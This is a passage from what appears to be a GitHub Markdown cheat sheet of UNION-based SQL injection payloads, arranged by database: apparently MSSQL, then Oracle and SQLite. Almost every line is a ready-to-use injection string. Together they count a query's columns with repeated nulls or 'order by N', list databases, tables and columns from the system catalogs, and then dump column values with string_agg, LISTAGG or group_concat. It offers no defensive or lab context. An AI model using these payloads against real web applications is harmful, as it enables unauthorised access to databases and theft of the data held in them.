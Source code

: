 > <span style="color:#3E386D">→</span> &#39; union select column_name, null, null, null from (select top 4 column_name from information_schema.columns where table_name=&#39;&#60;table_name&#62;&#39; order by 1) as shit order by 1 desc<br>
> <span style="color:#3E386D">→</span> &#39; union select &#60;column_name&#62;, null, null, null from &#60;table_name&#62;<br>

> <span style="color:#3E386D">→</span> &#39; union select string_agg(db_name(),&#39;,&#39;), null, null, null<br>
> <span style="color:#3E386D">→</span> &#39; union select string_agg(table_name,&#39;,&#39;), null, null, null from information_schema.tables<br>
> <span style="color:#3E386D">→</span> &#39;union select string_agg(column_name,&#39;,&#39;), null, null, null from information_schema.columns where table_name='&#60;table_name&#62;'<br>
> <span style="color:#3E386D">→</span> &#39; union select string_agg(&#60;column_name&#62;,&#39;,&#39;), null, null, null from &#60;table_name&#62;<br>

<b>*<span style="color:#631F9C">&#62;</span> Oracle*</b>

> <span style="color:#3E386D">→</span> &#39; union select null from dual<br>
> <span style="color:#3E386D">→</span> &#39; union select null, null from dual<br>
> <span style="color:#3E386D">→</span> &#39; union select null, null, null from dual<br>
> <span style="color:#3E386D">→</span> &#39; union select null, null, null, null from dual<br>
(If there is no error when sending 4 nulls as above, it means that 4 columns are being used.)<br>

> <span style="color:#3E386D">→</span> &#39; order by 1<br>
> <span style="color:#3E386D">→</span> &#39; order by 2<br>
> <span style="color:#3E386D">→</span> &#39; order by 3<br>
> <span style="color:#3E386D">→</span> &#39; order by 4<br>
> <span style="color:#3E386D">→</span> &#39; order by N<br>
(If an error occurs using `order by`, the number of columns in use is N-1.)<br>

> <span style="color:#3E386D">→</span> &#39; union select LISTAGG(table_name,&#39;,&#39;) WITHIN GROUP(ORDER BY table_name), null
FROM user_tables<br>
> <span style="color:#3E386D">→</span> &#39; union select null, LISTAGG(column_name,&#39;,&#39;) WITHIN GROUP(ORDER BY column_name) from cols<br>
> <span style="color:#3E386D">→</span> &#39; union select LISTAGG(&#60;column_name&#62;,&#39;,&#39;) WITHIN GROUP(ORDER BY &#60;column_name&#62;) AS result, null
FROM &#60;table_name&#62;<br>

<b>*<span style="color:#631F9C">&#62;</span> SQLITE*</b>

> <span style="color:#3E386D">→</span> &#39; union select null<br>
> <span style="color:#3E386D">→</span> &#39; union select null, null<br>
> <span style="color:#3E386D">→</span> &#39; union select null, null, null<br>
> <span style="color:#3E386D">→</span> &#39; union select null, null, null, null<br>
(If there is no error when sending 4 nulls as above, it means that 4 columns are being used.)<br>

> <span style="color:#3E386D">→</span> &#39; order by 1<br>
> <span style="color:#3E386D">→</span> &#39; order by 2<br>
> <span style="color:#3E386D">→</span> &#39; order by 3<br>
> <span style="color:#3E386D">→</span> &#39; order by 4<br>
> <span style="color:#3E386D">→</span> &#39; order by N<br>
(If an error occurs using `order by`, the number of columns in use is N-1.)<br>

> <span style="color:#3E386D">→</span> &#39; union select sqlite_version(), null, null, null<br>
> <span style="color:#3E386D">→</span> &#39; union select group_concat(sql), group_concat(name), null, null from sqlite_master<br>
> <span style="color:#3E386D">→</span> &#39; union select group_concat(&#60;column_name&#62;), group_concat(&#60;column_name&#62;), null, null from &#60;table_name&#62;<br>
